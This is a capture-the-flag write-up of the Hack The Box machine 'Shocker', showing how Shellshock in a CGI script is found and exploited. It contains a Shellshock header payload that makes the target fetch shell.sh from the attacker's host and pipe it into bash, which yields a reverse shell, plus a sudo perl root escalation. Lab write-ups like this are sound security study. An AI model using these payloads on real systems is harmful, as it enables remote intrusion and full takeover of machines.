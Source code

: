 # HTB Machine Shocker Write Up

## Overall about ShellShock

ShellShock is a vulnerability that affects the Bash shell, which is a command-line interface that is commonly used in Unix-based operating systems. The vulnerability allows attackers to run commands remotely on an affected system without authentication. This makes it possible for attackers to gain control of the system and execute malicious code. Additionally, the vulnerability can be exploited to gain access to sensitive information stored on the system. As such, it is important to patch systems with the latest security updates to prevent exploitation.

1. **Reconnaissance**
    
    From the description, we only be provided with the IP of the machine. Which is 10.10.10.56, we want to gather everything that is available from this machine.
    
    1. **Discover**
        
        ![Untitled](HTB%20Machine%20Shocker%20Write%20Up%20d31d5035fddb4b13ad599f73b1a584aa/Untitled.png)
        
        We discovered port 80 and 2222 is opened from the machine IP 10.10.10.56.
        
        ![Browse for the site](HTB%20Machine%20Shocker%20Write%20Up%20d31d5035fddb4b13ad599f73b1a584aa/Untitled%201.png)
        
        Browse for the site
        
    2. **Enumeration**
        
        From this step, we already known that the machine is running a web service on port 80 and nothing else. We want to search for folders or endpoints that were opened within the web server.
        
        Using dirbuster built-in Kali, with below setting we can generate the following report that contains folders and endpoints that is available which is response in 200 from the machine on port 80.
        
        ![Untitled](HTB%20Machine%20Shocker%20Write%20Up%20d31d5035fddb4b13ad599f73b1a584aa/Untitled%202.png)
        
        ![Untitled](HTB%20Machine%20Shocker%20Write%20Up%20d31d5035fddb4b13ad599f73b1a584aa/Untitled%203.png)
        
        ![Access to the endpoint](HTB%20Machine%20Shocker%20Write%20Up%20d31d5035fddb4b13ad599f73b1a584aa/Untitled%204.png)
        
        Access to the endpoint
        
        From this report, we may want to search for the vulnerability that related to cgi-bin folder, which is the folder contains script that can communicate directly with Bash to perform tasks that expose to the out side world. 
        
        Through research, it leaded me to the following [link](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#match-7146748) which mention about the vulnerable dubbed Shellshock, which take CGI as a vector to exploit.
        
        We can also use nmap with script to scan for the vulnerable:
        
        ```bash
        nmap -sV -T5 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
        ```
        
        ![Untitled](HTB%20Machine%20Shocker%20Write%20Up%20d31d5035fddb4b13ad599f73b1a584aa/Untitled%205.png)
        
2. Step to reproduce
    1. Shellshock
        
        From BurpSuite, we want to capture a packet from proxy and move it to repeater. From repeater, we noticed that this user.sh file is running some kind of time checking which we already known that file stored in cgi-bin folder will communicate directly to Bash.
        
        ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled.png)
        
        ```bash
        env x='() { :;}; echo vulnerable' bash -c "echo test"
        ```
        
        From the PoC, due to the misunderstanding of handling the character, which is the main cause of the vulnerable, attacker can directly force bash to run command without authentication right from web access while abusing http headers in shell script that expose to the WWW in cgi-bin folder.
        
        ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%201.png)
        
    2. Reverse shell and netcat 
        
        We want to test for our theory, we can try some variant of the PoC like abusing Cookie header:
        
        ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%202.png)
        
        From that, we can sure that our theory is right and we already go for 50% of the road, we want to make a connection back from the machine to take the full control.
        
        ```bash
        Cookie: () { exp;}; echo; /usr/bin/curl 10.10.14.15/shell.sh | /bin/bash
        ```
        
        ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%203.png)
        
        Using [payloadallthething](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-udp) to take the sample reverse shell, use python httpserver to quickly host a server and use netcat as a listener on port 4444 set above within the shell.sh, we can make a connection back from the machine as user **shelly.**
        
    3. Privilege Escalation  - Post exploit
        
        From here, we can read user.txt flag which stored in /home folder. However, we want to take a full control over the machine, which is the root privilege.
        
        We may want to take a look at sudo with option list which contains users’ privileges or commands that the user can run.
        
        ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%204.png)
        
        > If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
        > 
        
        ```bash
        sudo perl -e 'exec "/bin/sh";'
        ```
        
        And with the help of [gtfobins](https://gtfobins.github.io/gtfobins/perl/), we can successful escalate to the root privilege and read the root flag in /root folder.
        
        ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%205.png)
